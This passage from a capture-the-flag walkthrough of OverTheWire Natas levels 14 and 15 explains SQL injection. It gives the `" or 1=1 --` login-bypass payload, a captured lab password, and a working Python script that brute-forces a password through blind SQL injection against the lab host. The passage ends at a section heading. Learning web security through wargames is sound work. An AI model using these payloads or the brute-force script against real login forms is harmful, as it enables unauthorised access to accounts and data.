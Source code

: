 ![Level 13 Progress](images/natas14-1.png)
---

### Level 14: SQL Injection

- **Commands/Tools Introduced:** SQL injection

#### Solution Outline:

1. **Source Code Analysis:**
   Found a PHP script that takes a `username` and `password` parameter and checks them against a database. The code is vulnerable to SQL injection.

2. **SQL Injection:**
    Used SQL injection to bypass the login check `" or 1=1 --` as the username and password. This will return the password for Natas15.

#### Password: `SdqIqBsFcz3yotlNYErZSZwblkm0lrvx`

---

### Level 15: Blind SQL Injection 

- **Commands/Tools Introduced:** SQL injection

#### Solution Outline:

1. **Source Code Analysis:**
   Found a PHP script that takes a `username` parameter and checks it against a database. The code is vulnerable to SQL injection as when we run `" or 1=1 --` as the username, it returns error in the query.

2. **SQL Injection:**
   We can see in the source code, we would need to bruteforce the password.
   This can be done using a python script.
   ```python
    import requests
    target = "http://natas15.natas.labs.overthewire.org/"
    charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    password = ""
    natas15_password = "SdqIqBsFcz3yotlNYErZSZwblkm0lrvx"

    while len(password) < 32:
        for c in charset:
            test_password = password + c + "%"
            username = f'natas16" AND password LIKE BINARY "{test_password}" "'
            r = requests.get(
                target, auth=("natas15", natas15_password), params={"username": username}
            )
            if "This user exists" in r.text:
                password += c
                print(f"Password so far: {password}")
                break

    print(f"Final password: {password}")
    ```
3. **Accessing the Password:**
   ```
